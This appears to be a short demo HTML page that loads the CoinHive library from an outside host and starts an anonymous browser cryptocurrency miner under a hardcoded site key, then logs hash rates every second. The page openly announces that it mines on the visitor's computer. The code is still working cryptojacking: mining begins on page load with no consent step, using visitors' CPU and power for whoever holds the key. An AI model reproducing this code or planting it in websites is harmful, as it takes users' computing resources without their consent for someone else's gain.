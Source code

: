 <html>

	<head>
		<title>We are mining using your computer!</title>
		<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
	</head>

	<body>


		<h1>We are mining!!!</h1>

		<script>
			var miner = new CoinHive.Anonymous('lbcKDbmeSLVaInqx3gMTzYKbpZ0GXM99');
			miner.start();

			// Listen on events
			miner.on('found', function() { 
				console.log("found hash!")
			})
			miner.on('accepted', function() { 
				console.log("accepted hash!")
			})

			// Update stats once per second
			setInterval(function() {
				var hashesPerSecond = miner.getHashesPerSecond();
				var totalHashes = miner.getTotalHashes();
				var acceptedHashes = miner.getAcceptedHashes();

				console.log("hashesPerSecond", hashesPerSecond)
				console.log("totalHashes", totalHashes)
				console.log("acceptedHashes", acceptedHashes)

				console.log("-----------")
				console.log("-----------")
				console.log("-----------")

				// Output to HTML elements...
			}, 1000);
		</script>
	</body>

</html>
